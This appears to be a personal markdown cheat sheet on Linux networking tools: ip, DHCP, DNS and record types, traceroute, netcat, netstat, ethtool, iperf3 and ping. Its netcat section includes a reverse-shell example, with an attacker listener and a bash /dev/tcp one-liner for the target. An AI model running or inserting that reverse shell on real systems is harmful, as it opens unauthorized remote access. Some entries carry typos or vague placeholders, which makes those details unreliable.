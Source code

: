 # ip command

`ip addr` shows addressed assigned to all network interfaces

`ip link` shows all accessible intefaces

`ip route` shows routing table

`ip route list table local` provides additional (internal e.g. loopback or broadcast) route addresses

`ip route add 192.168.12.0/24 via 172.16.0.2`

`ip route add default via 172.16.0.2`

> [!NOTE]
> default is an alias for 0.0.0.0/0

`ip link set enpxsy name enp-rem` changes name for an interface to enp-rem

> [!NOTE]
> interface has to be down during rename

`ip addr flush dev enp0s3` resets inteface setting

`ip link set down dev enp0s3` sets down intefcae

`ip link set up dev enp0s3` sets up interface

`ip addr add 1.0.1/24 dev enp0s3` assigns addres to interface by hand

> [!WARNING]
> `ip addr add` with mask -  puts default gatway ip to route table, but would't if mask wasn't provided\
> additionaly route table for specific interface will be accessible iff interface is set up

> [!NOTE]
> common name for ethernet interface is enp#s#f#, which stands for:
>```
>en = ethernet
>p# = PCI bus number
>s# = slot number
>f# = function index
>```

# dhclient - DHCP - Dynamic host conf protocol

`dhclient enp0s3 -v`

ISP - internet service provider

# host DNS 

`host -t a example.org` -DNS CLIENT with (t)ype of record

`traceroute -A example.org` - additional info about each consecutive AS number that can be used with whois

`traceroute -n 192.168.4.4` - turn off dns request when repling ipv4 -> host

### dns flow
![dns-flow](./imgs/basic/dns.png)


### dns query types
* recursive - dns resolvers sends a message if it can, by doing recursive calls

* iterative - dns resolver sends the best answer he can give and client has to make another call itself

* non-recursive - idk


### dns servers
* DNS resolver (recursive resolver)

* Root provider (there are 13) if dns resolver doesn't have some record it root provider for it
  
* Authoritative server (like google.com)
  
* Top level domains

### dns records

| type  | description                                                          |
| ----- | -------------------------------------------------------------------- |
| A     | resolves ipv4 addreses                                               |
| AAAA  | resolves ipv6 adresses                                               |
| CNAME | creates aliases to domain `ftp.example.com -> example.com`           |
| MX    | where to send email `MX example.com with prio -> mail1.example.com ` |
| SOA   | (start of authority)                                                 |

# nc  - netcat
### connect two computers
server

    nc -l 1337

client

    nc ipaddr 1337


### reverse shell

attacker

    nc -l -v -n -p 3000

target

    /bin/bash - i >& /dev/tcp/ip/port 0>&1



# telnet host port
allows plain communication in tcp

# netstat
prints active network devices with lots of addition info about active ports, ethernet stats, ipv4 stats (ip, icmp, tcp , udp)

`netstat -l46n` - prints active listning services\
`netstat -l46` - prints active listning serices but with service using /etc/services

`sudo netstat -tulpn` l - listning, p- program, n -numeric


> [!NOTE]
> `/etc/services` is a mapping between protocols names and its TCP/UDP ports

> [!NOTE]
> `/etc/hosts` is a "local dns file" each records look like `127.0.1.1    virbian`


# ethtool
for managing network interfaces devices
obtaining properties :  `ethtool enp0s3`

# iperf3 - performance measurment application btw client and server

`iperf -s` listen
`iperf3 -c 192.168.0.2` sends

> [!NOTE]
> `iperf3` commonly works on port 5201
>
# ping
if intermediate router doesn't know where to send ping packet, it sends `Destination host unreachable` packet to sender
